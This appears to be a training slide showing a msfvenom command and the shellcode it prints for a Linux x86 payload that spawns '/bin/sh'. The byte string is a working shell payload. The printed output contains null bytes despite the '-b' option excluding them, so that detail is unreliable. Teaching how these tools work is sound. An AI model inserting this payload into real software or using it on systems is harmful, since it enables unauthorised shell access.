

# MSFvenom example
Example use:
msfvenom -p linux/x86/exec CMD='/bin/sh' -a x86 -b '\x00' -i 0
Output:
buf =
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73" +
"\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x08\x00\x00" +
"\x00\x2f\x62\x69\x6e\x2f\x73\x68\x00\x57\x53\x89\xe1\xcd" +
"\x80"